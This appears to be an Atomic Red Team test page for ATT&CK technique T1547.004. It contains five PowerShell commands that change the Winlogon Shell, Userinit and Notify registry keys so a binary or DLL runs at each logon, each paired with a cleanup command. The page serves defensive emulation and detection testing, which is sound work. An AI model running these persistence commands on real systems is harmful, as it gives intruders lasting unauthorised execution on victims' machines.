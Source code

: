 # T1547.004 - Boot or Logon Autostart Execution: Winlogon Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/004)
<blockquote>Adversaries may abuse features of Winlogon to execute DLLs and/or executables when a user logs in. Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete. Registry entries in <code>HKLM\Software[\\Wow6432Node\\]\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> and <code>HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> are used to manage additional helper programs and functionalities that support Winlogon.(Citation: Cylance Reg Persistence Sept 2013) 

Malicious modifications to these Registry keys may cause Winlogon to load and execute malicious DLLs and/or executables. Specifically, the following subkeys have been known to be possibly vulnerable to abuse: (Citation: Cylance Reg Persistence Sept 2013)

* Winlogon\Notify - points to notification package DLLs that handle Winlogon events
* Winlogon\Userinit - points to userinit.exe, the user initialization program executed when a user logs on
* Winlogon\Shell - points to explorer.exe, the system shell executed when a user logs on

Adversaries may take advantage of these features to repeatedly execute malicious code and establish persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell](#atomic-test-1---winlogon-shell-key-persistence---powershell)

- [Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell](#atomic-test-2---winlogon-userinit-key-persistence---powershell)

- [Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell](#atomic-test-3---winlogon-notify-key-logon-persistence---powershell)

- [Atomic Test #4 - Winlogon HKLM Shell Key Persistence - PowerShell](#atomic-test-4---winlogon-hklm-shell-key-persistence---powershell)

- [Atomic Test #5 - Winlogon HKLM Userinit Key Persistence - PowerShell](#atomic-test-5---winlogon-hklm-userinit-key-persistence---powershell)


<br/>

## Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** bf9f9d65-ee4d-4c3e-a843-777d04f19c38





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** fb32c935-ee2e-454b-8fa3-1c46b42e8dfb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell
PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** d40da266-e073-4e5a-bb8b-2b385023e5f9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | Path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" "logon" "#{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Winlogon HKLM Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** 95a3c42f-8c88-4952-ad60-13b81d929a9d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Winlogon HKLM Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** f9b8daff-8fa7-4e6a-a1a7-7c14675a545b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
